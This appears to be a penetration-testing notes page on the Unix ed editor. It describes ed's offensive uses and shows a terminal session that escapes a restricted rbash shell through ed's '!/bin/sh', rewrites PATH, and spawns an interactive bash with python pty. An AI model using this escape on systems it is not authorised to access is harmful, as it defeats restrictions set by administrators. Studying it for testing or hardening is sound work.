 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ed

The [`ed`](https://linux.die.net/man/1/ed) binary is a **line-oriented text editor** that dates back to the early days of Unix. It operates entirely in the terminal and is designed for editing files through concise command sequences rather than visual interaction. While its interface is minimal and unintuitive by modern standards, its presence is nearly guaranteed on Unix-like systems, including minimal or recovery environments where more feature-rich editors like `vi` or `nano` might not be available.

Despite being rarely used directly by users today, `ed` remains part of many default installations due to its small footprint and historical significance. In offensive security contexts, the presence of `ed` can be valuable, particularly in **restricted shell environments** or when facing limited binary availability. It enables file manipulation, code injection, or persistence mechanisms without requiring additional tooling, making it a stealthy option for modifying scripts or system files when visibility needs to be minimized.

As an example, the ed binary can be used to [escape](https://gtfobins.github.io/gtfobins/ed/#shell) `rbash` by modifying the `PATH` variable:

{% code overflow="wrap" %}
```bash
# Common binaries are restricted
x7331@kali:~$ id
-rbash: id: command not found

# The restriction is due to the PATH environment variable
x7331@kali:~$ echo $PATH
/home/x7331/bin

# The variable cannot be modified
x7331@kali:~$ export PATH=$PATH:/usr/bin/
-rbash: PATH: readonly variable

# The ed binary can be used for PATH variable modification
x7331@kali:~$ ed
!/bin/sh
$ export PATH=/bin:/usr/bin:$PATH

$ echo $PATH
/bin:/usr/bin:/home/x7331/bin

# Common binaries can be now used
$ id
uid=1000(x7331) gid=1000(x7331) groups=1000(x7331)

# Get an interactive shell
$ python -c 'import pty;pty.spawn("/bin/bash")'
x7331@kali:~$ id
x7331@kali:~$ export PATH=/usr/bin:/bin:$PATH
```
{% endcode %}
